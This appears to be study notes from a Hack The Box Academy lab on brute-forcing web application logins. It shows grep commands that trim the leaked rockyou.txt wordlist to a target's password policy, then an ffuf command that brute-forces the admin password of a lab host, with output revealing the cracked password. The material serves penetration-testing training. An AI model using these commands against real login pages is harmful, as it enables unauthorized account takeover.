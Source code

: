 For instance, the popular password wordlist `rockyou.txt` contains more than 14 million passwords:

```shell
gitblanc@htb[/htb]$ wc -l /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt

14344391 /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```

Now, we can use `grep` to match only those passwords that match the password policy implemented by our target web application, which brings down the wordlist to about 150,000 passwords, a reduction of about 99%:

```shell
gitblanc@htb[/htb]$ grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

gitblanc@htb[/htb]$ wc -l custom_wordlist.txt

151647 custom_wordlist.txt
```

To start brute-forcing passwords, we need a user or a list of users to target. Using the techniques covered in the previous section, we determine that admin is a username for a valid user, therefore, we will attempt brute-forcing its password.

However, first, let us intercept the login request to know the names of the POST parameters and the error message returned within the response:

Upon providing an incorrect username, the login response contains the message (substring) "Invalid username", therefore, we can use this information to build our `ffuf` command to brute-force the user's password:

```shell
gitblanc@htb[/htb]$ ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4764ms]
    * FUZZ: Buttercup1
```

After some time, we can successfully obtain the admin user's password, enabling us to log in to the web application:

![](Pasted%20image%2020250314101936.png)

For more details on creating custom wordlists and attacking password-based authentication, check out the [Cracking Passwords with Hashcat](https://academy.hackthebox.com/module/details/20) and [Password Attacks](https://academy.hackthebox.com/module/details/147) modules. Further details on brute-forcing different variations of web application logins are provided in the [Login Brute Forcing](https://academy.hackthebox.com/module/details/57) module.

>[!Example]
>The Academy's exercise for this section

![](Pasted%20image%2020250314102501.png)
